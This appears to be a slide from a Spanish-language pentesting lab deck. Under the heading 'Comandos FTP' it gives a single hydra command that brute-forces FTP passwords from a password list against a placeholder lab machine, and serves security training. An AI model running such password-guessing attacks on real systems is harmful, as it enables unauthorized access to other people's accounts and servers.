

# Comandos
FTP

hydra -l user -P passlist.txt ftp://MACHINE_IP